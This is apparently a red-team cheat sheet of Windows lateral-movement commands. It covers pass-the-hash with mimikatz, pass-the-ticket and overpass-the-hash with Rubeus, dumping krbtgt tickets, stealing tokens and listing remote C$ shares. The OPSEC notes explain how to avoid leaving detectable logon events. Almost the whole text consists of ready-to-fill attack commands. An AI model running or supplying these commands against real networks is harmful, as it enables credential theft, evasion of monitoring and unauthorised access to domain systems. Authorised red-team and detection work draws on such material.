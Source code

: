 #### Pass the hash
```
pth <DOMAIN>\<USER> <NTLM HASH>
```

```
mimikatz sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<NTLM> /run:"powershell -w hidden"
steal_token <PID>
```

#### Pass the ticket
- OPSEC: By default, Rubeus will use a random username, domain and password with CreateProcessWithLogonW, which will appear in the associated 4624 logon event.  The "Suspicious Logon Events" saved search will show 4624's where the TargetOutboundDomainName is not an expected value.
```
execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:<DOMAIN> /username:<USER> /password:FakePass123

execute-assembly Rubeus.exe ptt /luid:<LUID FROM PREVIOUS COMMAND> /ticket:<BASE64 TICKET>

steal_token <PID OF FIRST COMMAND>
```

#### Overpass the hash
- OPSEC: Use AES256 keys
```
execute-assembly Rubeus.exe asktgt /user:<USER> /domain:<DOMAIN> /rc4:<NTLM HASH> /nowrap
execute-assembly Rubeus.exe asktgt /user:<USER> /domain:<DOMAIN> /aes256:<AES256 HASH> /nowrap /opsec

make_token <DOMAIN>\<USER> DummyPass
[System.IO.File]::WriteAllBytes("C:\Users\public\ticket.kirbi", [System.Convert]::FromBase64String("[...ticket...]"))
kerberos_ticket_use C:\Users\public\ticket.kirbi

ls \\<HOSTNAME>\c$
```

#### Overpass the hash elevated context
```
execute-assembly Rubeus.exe asktgt /user:<USER> /domain:<DOMAIN> /aes256:<AES256 HASH> /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe

#output: [+] ProcessID       : <PID>

steal_token <PID>

ls \\<HOSTNAME>\c$
```

#### Extract and inject ticket, then steal token
- Extract tickets of a user, create new process, inject ticket into process, steal token from the process
```
execute-assembly Rubeus.exe triage
execute-assembly Rubeus.exe dump /service:krbtgt /luid:<LUID> /nowrap
execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly Rubeus.exe ptt /luid:<LUID> /ticket:[...base64-ticket...]
steal_token <PID>
```
